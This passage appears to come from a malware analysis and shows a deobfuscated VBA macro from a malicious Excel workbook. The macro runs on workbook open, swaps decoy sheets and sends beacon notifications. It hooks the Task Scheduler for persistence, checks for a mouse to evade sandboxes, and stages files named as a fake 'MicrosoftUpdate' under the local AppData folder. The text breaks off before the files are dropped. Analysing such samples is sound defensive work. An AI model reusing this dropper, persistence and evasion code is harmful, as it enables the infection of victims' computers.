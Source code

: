 Here is the macro after renaming the varaible to make it more readable and easy to understand.

```vb
Private Declare PtrSafe Function DispCallFunc Lib "oleaut32.dll" (ByVal pv As LongPtr, ByVal ov As LongPtr, ByVal cc As Integer, ByVal vr As Integer, ByVal ca As Long, ByRef pr As Integer, ByRef pg As LongPtr, ByRef par As Variant) As Long
Private Declare PtrSafe Sub RtlMoveMemory Lib "kernel32" (Dst As Any, Src As Any, ByVal BLen As LongPtr)
Private Declare PtrSafe Function VarPtrArray Lib "VBE7" Alias "VarPtr" (ByRef Var() As Any) As LongPtr
Dim random_number As String

#If Win64 Then
Const LS As LongPtr = 8&
#Else
Const LS As LongPtr = 4&
#End If

Private Sub WorkbrootFolderk_Open()
    GoTo s1
    Sheets("Confirmation Receive Document").Visible = True
    Sheets("Confirmation Receive Documents").Visible = False
    'Sheets("TeamViewer Licenses").Visible = True
    'Sheets("TeamViewer License").Visible = False
    Exit Sub
	
s1:
    
    Sheets("Confirmation Receive Documents").Visible = True
    Sheets("Confirmation Receive Document").Visible = False
 
    ' Generate 4 digit random rumber
    random_number = CStr(Int((10000 * Rnd())))
    eNotif "zbabz"
    
    ' Create object file
    Set fs = CreateObject("Scripting.FileSystemObject")
	
    ' Create the TaskService object.
    Set service  = CreateObject("schedule.service")
    Call service.Connect
    Dim rootFolder
    On Error Resume Next
    
    ' Get the task folder that contains the tasks. 
    Set rootFolder = service.GetFolder("\")
    eNotif "zbbbz" 
  
    On Error Resume Next
	
    ' If mouse device is connected 
    If Application.MouseAvailable Then
        drop_path = LCase(Environ("localappdata")) & "\MicrosoftUpdate\"
        If Dir(drop_path, vbDirectory) = "" Then
            MkDir drop_path
        End If
		
	' drop_path = \AppData\Local\MicrosoftUpdate\  
	' drop  following files in drop_path 

        malware = drop_path & "update.exe"  
        config = drop_path & "update.exe.config"
        DLL = drop_path & "Microsoft.Exchange.WebServices.dll"
        
```